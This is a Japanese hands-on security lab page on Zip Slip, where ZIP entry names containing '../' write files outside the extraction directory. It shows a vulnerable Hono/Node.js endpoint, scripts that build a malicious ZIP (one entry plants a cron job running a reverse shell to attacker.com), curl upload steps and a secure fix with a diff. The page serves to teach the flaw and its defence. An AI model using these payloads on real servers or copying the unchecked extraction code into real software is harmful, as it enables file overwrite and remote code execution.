


# Zip Slip — ZIP展開によるパストラバーサル

> 悪意のあるZIPファイルにファイル名として `../` を含むエントリを仕込むことで、サーバーが意図したディレクトリの外側にファイルを書き込めてしまう脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | ZIPファイルのアップロード・展開機能がエントリのファイルパスを検証しないため、`../../../etc/cron.d/malicious` のようなパスを持つエントリが展開先ディレクトリの外に書き込まれ、任意のファイル上書きやコード実行が可能になる |
| **攻撃例** | `../../../tmp/pwned.txt` というエントリを含むZIPをアップロードし、サーバーの `/tmp/pwned.txt` にファイルを書き込む |
| **技術スタック** | Hono API (ファイルアップロード・ZIP展開エンドポイント) / Node.js (`yauzl` / `adm-zip` 等のZIPライブラリ) |
| **難易度** | ★★☆ 中級 |
| **前提知識** | ファイルアップロードの基本、パストラバーサルの概念（`../` によるディレクトリ遡上）、Node.js のファイルシステム操作 |

---

## この脆弱性を理解するための前提

### ZIPファイルの展開処理の仕組み

Webアプリケーションでは、ユーザーがZIPファイルをアップロードし、サーバーがその内容を展開する機能がある。例えばドキュメントの一括アップロード、テーマやプラグインのインストール、データのインポートなどが該当する。

```
ユーザー → サーバー: ZIPファイルをアップロード
サーバー: ZIPを展開先ディレクトリ (/uploads/user123/) に展開
  → file1.txt → /uploads/user123/file1.txt
  → images/photo.png → /uploads/user123/images/photo.png
サーバー → ユーザー: 展開完了
```

この仕組みでは、ZIPファイル内の各エントリが持つ**ファイル名（パス）**に基づいて展開先が決定される。正常なZIPファイルでは `file1.txt` や `images/photo.png` のような相対パスが格納されている。

### どこに脆弱性が生まれるのか

問題は、ZIPファイル内のエントリ名が **開発者が想定した単純なファイル名ではなく、`../` を含むパストラバーサル文字列** である場合に発生する。ZIPの仕様ではエントリ名にパス区切り文字を含めることが許可されており、`../` を使ったディレクトリ遡上もエントリ名として有効である。サーバーがエントリ名をそのまま展開先パスに結合すると、意図したディレクトリの外側にファイルが書き込まれる。

```typescript
// ⚠️ この部分が問題 — ZIPエントリのファイルパスを検証していない
import AdmZip from 'adm-zip';
import path from 'node:path';
import fs from 'node:fs';

app.post('/api/upload-zip', async (c) => {
  const body = await c.req.parseBody();
  const file = body['file'] as File;
  const buffer = Buffer.from(await file.arrayBuffer());

  const zip = new AdmZip(buffer);
  const extractDir = '/uploads/user123/';

  for (const entry of zip.getEntries()) {
    // エントリ名をそのまま結合 → "../" で展開先ディレクトリの外に書き込める
    const filePath = path.join(extractDir, entry.entryName);
    //                                     ^^^^^^^^^^^^^^^^
    // entry.entryName が "../../etc/cron.d/malicious" だった場合:
    // filePath = "/uploads/user123/../../etc/cron.d/malicious"
    //          = "/etc/cron.d/malicious" (path.join が正規化)

    fs.mkdirSync(path.dirname(filePath), { recursive: true });
    fs.writeFileSync(filePath, entry.getData());
  }

  return c.json({ message: '展開完了' });
});
```

---

## 攻撃の仕組み



### 攻撃のシナリオ

1. **攻撃者** がパストラバーサルを含むZIPファイルを作成する

   攻撃者はZIPファイルを作成する際に、エントリ名に `../` を含むパスを設定する。通常のZIP作成ツールではこのようなエントリは作成できないが、プログラムで直接ZIPバイナリを構築するか、専用のツールを使えば作成可能。

   ```typescript
   // 攻撃用ZIPファイルの作成例
   import AdmZip from 'adm-zip';

   const zip = new AdmZip();

   // 正常なファイルエントリ
   zip.addFile('readme.txt', Buffer.from('This is a normal file'));

   // 悪意のあるエントリ — 展開先ディレクトリの外に書き込まれる
   zip.addFile(
     '../../../tmp/pwned.txt',
     Buffer.from('This file was written outside the target directory!')
   );

   // さらに危険な例: cronジョブを書き込んでリバースシェルを実行
   zip.addFile(
     '../../../etc/cron.d/malicious',
     Buffer.from('* * * * * root /bin/bash -c "bash -i >& /dev/tcp/attacker.com/4444 0>&1"\n')
   );

   zip.writeZip('malicious.zip');
   ```

2. **攻撃者** が作成したZIPファイルをアップロードする

   通常のファイルアップロード機能を使って、作成した悪意のあるZIPファイルをサーバーにアップロードする。

   ```bash
   curl -X POST http://localhost:3000/api/labs/zip-slip/vulnerable/upload \
     -F "file=@malicious.zip"
   ```

3. **サーバー** がZIPを展開し、意図しない場所にファイルが書き込まれる

   サーバーはZIPファイルを展開する際に、各エントリのパスを展開先ディレクトリと単純に結合する。`path.join()` は `../` を正規化するため、結果として展開先ディレクトリの外側のパスが生成される。

   ```
   展開先ディレクトリ: /uploads/user123/

   エントリ1: readme.txt
   → path.join('/uploads/user123/', 'readme.txt')
   → /uploads/user123/readme.txt  ← 正常

   エントリ2: ../../../tmp/pwned.txt
   → path.join('/uploads/user123/', '../../../tmp/pwned.txt')
   → /tmp/pwned.txt  ← 展開先ディレクトリの外！

   エントリ3: ../../../etc/cron.d/malicious
   → path.join('/uploads/user123/', '../../../etc/cron.d/malicious')
   → /etc/cron.d/malicious  ← システムファイルの上書き！
   ```

4. **攻撃者** が書き込まれたファイルを利用して攻撃を拡大する

   書き込まれたファイルの種類に応じて、さまざまな攻撃が可能になる。cronジョブを書き込めばコマンド実行、Webアプリのソースコードを上書きすればバックドアの設置、設定ファイルを上書きすれば認証のバイパスが可能になる。

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| エントリパスの未検証 | サーバーがZIPエントリのファイル名（パス）を検証せずに展開先パスとして使用している。`../` を含むパスが意図した展開先ディレクトリの外を指す |
| `path.join()` の正規化 | `path.join('/uploads/user123/', '../../../tmp/pwned.txt')` は `/tmp/pwned.txt` に正規化される。これはNode.jsの正しい動作だが、セキュリティ検証なしに使うと危険 |
| ファイルシステムへの書き込み権限 | サーバープロセスが展開先ディレクトリ以外のパスに対しても書き込み権限を持っている場合、ディレクトリ外への書き込みが成功する |
| ZIPの仕様 | ZIP形式の仕様ではエントリ名に `../` やパス区切り文字を含めることが許可されており、ZIPライブラリはこれらのエントリを正常なものとして処理する |

### 被害の範囲

- **機密性**: 既存のファイルを攻撃者が用意したファイルで上書きすることで、設定ファイルから情報を漏洩させたり、バックドアを設置してデータにアクセスしたりできる
- **完全性**: サーバー上の任意のファイルを上書きでき、アプリケーションのソースコード、設定ファイル、システムファイル（cron、ssh authorized_keys等）を改ざんできる
- **可用性**: 重要なシステムファイルやアプリケーションファイルを上書きすることで、サービスをクラッシュさせたり正常動作を妨害したりできる。最悪の場合、リモートコード実行に至る

---

## 対策



### 根本原因

ZIPエントリのファイルパスを**信頼できないユーザー入力として扱わず、そのまま展開先パスの構築に使用**していることが根本原因。ZIPエントリ名はZIPファイルの作成者が自由に設定でき、`../` を含むパストラバーサル文字列を仕込むことができる。展開先パスが意図したディレクトリ内に収まるかを検証する必要がある。

### 安全な実装

展開先パスを `path.resolve()` で絶対パスに解決した後、その結果が意図した展開先ディレクトリのプレフィックスで始まるかを検証する。プレフィックスが一致しない場合は、パストラバーサルが含まれているためエントリの展開を拒否する。

```typescript
// ✅ ZIPエントリのパスを検証し、展開先ディレクトリ外への書き込みを防止
import AdmZip from 'adm-zip';
import path from 'node:path';
import fs from 'node:fs';

app.post('/api/upload-zip', async (c) => {
  const body = await c.req.parseBody();
  const file = body['file'] as File;
  const buffer = Buffer.from(await file.arrayBuffer());

  const zip = new AdmZip(buffer);
  // 展開先ディレクトリの絶対パスを正規化（末尾に / を付与）
  const extractDir = path.resolve('/uploads/user123') + path.sep;

  for (const entry of zip.getEntries()) {
    // エントリのパスを展開先ディレクトリと結合し、絶対パスに解決
    const resolvedPath = path.resolve(extractDir, entry.entryName);

    // ✅ 解決されたパスが展開先ディレクトリのプレフィックスで始まるか検証
    // "../" が含まれている場合、path.resolve() により展開先ディレクトリの
    // 外を指す絶対パスに解決されるため、このチェックで検出できる
    if (!resolvedPath.startsWith(extractDir)) {
      // パストラバーサルを検出 — このエントリは展開しない
      console.warn(`Zip Slip detected: ${entry.entryName} → ${resolvedPath}`);
      return c.json(
        { error: `不正なファイルパスが検出されました: ${entry.entryName}` },
        400
      );
    }

    // ディレクトリエントリの場合はスキップ
    if (entry.isDirectory) continue;

    fs.mkdirSync(path.dirname(resolvedPath), { recursive: true });
    fs.writeFileSync(resolvedPath, entry.getData());
  }

  return c.json({ message: '展開完了' });
});
```

#### 脆弱 vs 安全: コード比較

```diff
  for (const entry of zip.getEntries()) {
-   const filePath = path.join(extractDir, entry.entryName);
+   const resolvedPath = path.resolve(extractDir, entry.entryName);
+   if (!resolvedPath.startsWith(extractDir)) {
+     return c.json({ error: `不正なファイルパスが検出されました: ${entry.entryName}` }, 400);
+   }
+   if (entry.isDirectory) continue;
-   fs.mkdirSync(path.dirname(filePath), { recursive: true });
-   fs.writeFileSync(filePath, entry.getData());
+   fs.mkdirSync(path.dirname(resolvedPath), { recursive: true });
+   fs.writeFileSync(resolvedPath, entry.getData());
  }
```

脆弱なコードでは `path.join()` でエントリパスをそのまま結合し、`../` による遡上を許可してしまう。安全なコードでは `path.resolve()` で絶対パスに解決した後、結果が展開先ディレクトリ内に収まるかを `startsWith()` で検証する。`../` が含まれている場合は解決後のパスが展開先ディレクトリの外を指すため、このチェックで必ず検出される。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| 展開先パスのプレフィックス検証 | 根本対策 | `path.resolve()` で絶対パスに解決し、展開先ディレクトリのプレフィックスで始まるか検証する。これが最も効果的で必須の対策 |
| エントリ名のサニタイズ | 多層防御 | エントリ名から `../` や先頭の `/` を除去する。ただし、プレフィックス検証と併用すること。単独では不十分（エンコーディングやOSごとのパス区切り文字の違いで回避される可能性がある） |
| 展開先ディレクトリの権限制限 | 多層防御 | サーバープロセスが書き込めるディレクトリを最小限に制限する（最小権限の原則）。展開先ディレクトリ以外に書き込み権限を持たなければ、パストラバーサルが成功しても書き込みが失敗する |
| シンボリックリンクの拒否 | 多層防御 | ZIPエントリがシンボリックリンクの場合は展開を拒否する。シンボリックリンクを通じたディレクトリ外アクセスを防ぐ |
| ファイルサイズ・数の制限 | 検知 | ZIP爆弾（極端に圧縮されたファイル）対策として、展開後の合計サイズとファイル数を制限し、異常なZIPファイルのアップロードを検知する |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: パストラバーサルを含むZIPファイルをアップロードし、展開先ディレクトリの外にファイルが書き込まれることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev
   ```

2. 攻撃用のZIPファイルを作成する

   以下のスクリプトでパストラバーサルを含むZIPを作成する（Node.jsが必要）:

   ```bash
   node -e "
   const AdmZip = require('adm-zip');
   const zip = new AdmZip();
   zip.addFile('normal.txt', Buffer.from('This is a normal file'));
   zip.addFile('../../../tmp/pwned.txt', Buffer.from('Zip Slip attack succeeded!'));
   zip.writeZip('/tmp/malicious.zip');
   console.log('malicious.zip created');
   "
   ```

3. 脆弱なエンドポイントにZIPをアップロードする

   ```bash
   curl -X POST http://localhost:3000/api/labs/zip-slip/vulnerable/upload \
     -F "file=@/tmp/malicious.zip"
   ```

4. ディレクトリ外にファイルが書き込まれたか確認する

   ```bash
   # 展開先ディレクトリ外にファイルが作成されている
   cat /tmp/pwned.txt
   # → "Zip Slip attack succeeded!"
   ```

5. 結果を確認する

   - `normal.txt` は展開先ディレクトリ内に正常に書き込まれる
   - `../../../tmp/pwned.txt` はパストラバーサルにより `/tmp/pwned.txt` に書き込まれる
   - **この結果が意味すること**: ZIPエントリのパスを検証しないと、サーバー上の任意の書き込み可能な場所にファイルを作成・上書きできる

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃がパス検証により失敗することを確認する

1. 安全なエンドポイントに同じZIPをアップロードする

   ```bash
   curl -X POST http://localhost:3000/api/labs/zip-slip/secure/upload \
     -F "file=@/tmp/malicious.zip"
   ```

2. 結果を確認する

   - `400 Bad Request` が返され、「不正なファイルパスが検出されました」とエラーになる
   - パストラバーサルを含むエントリが検出され、展開が中断される
   - 展開先ディレクトリ外にファイルは書き込まれない

3. 通常のZIPファイルが正常に展開できることも確認する

   ```bash
   # 正常なZIPファイルを作成
   node -e "
   const AdmZip = require('adm-zip');
   const zip = new AdmZip();
   zip.addFile('readme.txt', Buffer.from('Hello'));
   zip.addFile('data/info.json', Buffer.from('{\"key\": \"value\"}'));
   zip.writeZip('/tmp/normal.zip');
   "

   curl -X POST http://localhost:3000/api/labs/zip-slip/secure/upload \
     -F "file=@/tmp/normal.zip"
   # → 200 {"message": "展開完了"}
   ```

4. コードの差分を確認する

   - `backend/src/labs/step06-server-side/zip-slip.ts` の脆弱版と安全版を比較
   - **どの行が違いを生んでいるか** に注目: `path.resolve()` + `startsWith()` によるプレフィックス検証

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] ZIPファイルのエントリ名に `../` を含めることがなぜ可能なのか（ZIPの仕様）
- [ ] `path.join()` と `path.resolve()` の違い、そして `path.resolve()` がパストラバーサル検出に適している理由
- [ ] 根本原因はコードのどこにあるか（ZIPエントリ名を信頼できないユーザー入力として扱っていない）
- [ ] `startsWith()` によるプレフィックス検証が「なぜ」パストラバーサルを確実に検出できるのか（`path.resolve()` が `../` を解決した結果の絶対パスが展開先の外を指すため）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 脆弱エンドポイント | `/api/labs/zip-slip/vulnerable/upload` |
| 安全エンドポイント | `/api/labs/zip-slip/secure/upload` |
| バックエンド | `backend/src/labs/step06-server-side/zip-slip.ts` |
| フロントエンド | `frontend/src/labs/step06-server-side/pages/ZipSlip.tsx` |

- 脆弱版では `path.join()` でエントリパスをそのまま結合し、検証なしに展開
- 安全版では `path.resolve()` + `startsWith()` でプレフィックス検証
- ZIPライブラリは `adm-zip` を使用（`pnpm add adm-zip` / `pnpm add -D @types/adm-zip`）
- テスト用に展開先ディレクトリとディレクトリ外の状態を確認できるUI（展開結果のファイル一覧表示）を用意する
- 悪意のあるZIPの作成ツールもフロントエンドに組み込み、学習者が手軽に試せるようにすると良い

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2018 | Snyk Zip Slip 脆弱性公開 | Snykが主要なOSSライブラリ（Java、JavaScript、Ruby、.NET、Go等）のZIP展開処理にパストラバーサル脆弱性があることを調査・公表。HP、Amazon、Apache、Pivotal等の多くのプロジェクトが影響を受けた |
| 2018 | Apache Commons Compress (CVE-2018-11771) | Apache Commons CompressのZIP展開機能にZip Slip脆弱性が発見された。Javaエコシステムで広く使われているライブラリであり、多数のアプリケーションが影響を受けた |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [ファイルアップロード](./file-upload.md) | Zip Slipはファイルアップロード機能の一種であり、ファイルアップロードの脆弱性（拡張子検証の欠如、MIMEタイプ偽装等）と組み合わせて攻撃される場合がある |
| [SSRF](./ssrf.md) | 展開されたファイルがサーバーによって読み込まれる場合（設定ファイル等）、SSRFと組み合わせた攻撃チェーンが可能。例: 展開したファイルでWebhook URLを書き換えてSSRFを引き起こす |

---

## 参考資料

- [OWASP - Path Traversal](https://owasp.org/www-community/attacks/Path_Traversal)
- [CWE-22: Improper Limitation of a Pathname to a Restricted Directory ('Path Traversal')](https://cwe.mitre.org/data/definitions/22.html)
- [Snyk - Zip Slip Vulnerability](https://security.snyk.io/research/zip-slip-vulnerability)
